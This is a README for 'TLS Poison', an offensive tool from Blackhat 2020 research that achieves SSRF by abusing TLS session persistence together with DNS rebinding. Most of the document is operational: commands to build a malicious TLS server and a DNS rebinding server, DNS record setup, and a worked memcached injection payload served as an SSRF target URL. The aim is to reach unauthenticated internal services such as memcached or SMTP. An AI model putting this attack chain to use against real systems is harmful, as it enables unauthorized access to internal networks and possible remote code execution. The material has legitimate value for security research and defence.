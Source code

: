 Modified fork.

When the environment variable `TERMINATE` is set, the TLS server will shut down after it wrote the TLS payload and gracefully closed the connection with its' peer.

# TLS Poison
[YouTube link to presentation](https://youtube.com/watch?v=qGpAJxfADjo)

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:
![tes](diagram.svg)

## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot DNS instructions](https://certbot.eff.org/docs/using.html#dns-plugins) and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
If you want to reproduce my curl/memcached demo from the talk, you'll want to pass `-L` to curl to enable redirects, since command-line curl will use a fresh cache each time it's run.
Good luck, and make sure not to attack anything you don't have permission!
